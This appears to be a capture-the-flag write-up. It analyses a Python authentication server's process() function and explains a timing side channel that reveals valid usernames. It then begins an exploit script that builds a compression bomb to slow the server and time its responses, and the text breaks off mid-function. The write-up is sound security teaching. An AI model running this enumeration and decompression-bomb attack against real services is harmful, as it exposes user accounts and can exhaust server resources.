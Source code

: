 ```python    
def process(self,data):
    if data[3] != "EOS": #If it's not an TOKEN Request, decompress the current token token.
        print("[~] Decompressing the token...")
        token = decompress(data[3])
    if data[0] == "1": # If it's a token request, create and sent a new token.
        print("[TOKEN_REQUEST] Generating a valid token...")
        self.send_token(data[1],data[2])
        return True
    if token:
        print("[AUTH_REQUEST] Verifying the token...")
        time.sleep(3) # Sleep for blocking bruteforce attacks.
        if self.token_verifier.verify(token,data[1],data[2]):
            AuthSuccess()
            return True
        else:
        	AuthFail()
    		return False
```

When looking at the client, we can see user data is separated with "\x02\x01\x02\x01"

In the process function, called only if the username is valid, we can see that the server is checking if data[3] contains "EOS", if not he decompresses the token.

That means that if we send a **get_challenge packet** (Opcode 1), with a **fourth field** (a token), he will **decompress** this field and will not go to ```time.sleep(3) # Sleep for blocking bruteforce attacks.``` because we sent a packet with the opcode 1 !

**Decompressing data can take time**, and because **process() is only called when a user is valid**, we can guess if the username is valid by looking at the response time.

Let's try to exploit this flaw !

First of all, we have to guess which username is valid... 

My little exploit will help you.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = 'nightlydev <n.chatelain[at]sysdream.com>'
from timeit import default_timer
from zlib import compress, decompress
import socket
from numpy import mean
import time

class TimingAttack:
    def __init__(self,target):
        self.payload = None
        self.bombtimer = None
        self.target = target
        # We generate a ZIP Bomb to make the server lag.
        self.generate_exploit()
        print("[~] Timing attack ready.")

    def generate_exploit(self):
        # We compress a lot of "zeroes", small payload to send, but can take some time to decompress :) !
        print("[~] Generating bomb...")
        start = default_timer()
        self.payload = compress('0'*40000000)
        stop = default_timer()
        print("[+] Bomb generated - Took : %f to compress." % (stop - start))
        time.sleep(1)
        # We try to decompress the payload, which will be used as a trigger
        start = default_timer()
```